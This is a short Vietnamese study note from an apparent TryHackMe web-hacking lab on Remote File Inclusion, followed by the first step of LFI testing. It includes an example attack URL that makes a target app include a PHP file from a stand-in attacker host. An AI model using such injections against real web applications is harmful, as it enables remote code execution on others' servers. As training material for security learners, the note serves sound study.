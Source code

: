 ***Remote File Inclusion - RFI***

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image73.png?raw=true)

***RFI Steps***

Mã dưới đây là ví dụ các bước để tấn công RFI thành công! Giả sử attacker lưu trữ file PHP trên server của chúng: http://Attacker.thm/cmd.txt trong đó ***cmd.txt*** chứa thông báo ***Hello THM***:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image74.png?raw=true)

Đầu tiên, attacker chèn URL độc hại, trỏ đến server của attacker, ví dụ http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. Nếu không có xác thực input, URL độc hại sẽ được tiêm vào include function. Tiếp theo, web server sẽ gửi ***GET*** request đến server của attacker để tìm nạp file ***cmd.txt***. Do đó, web application đưa file từ xa vào include function, thực thi tệp PHP và gửi nội dung thực thi cho attacker.

***Remediation (Cách khắc phục)*** 

***Challenge***

Các bước testing LFI - Local File Inclusion:

- Tìm entry point (điểm vào) có thể thông qua GET, POST, COOKIE hoặc HTTP header.
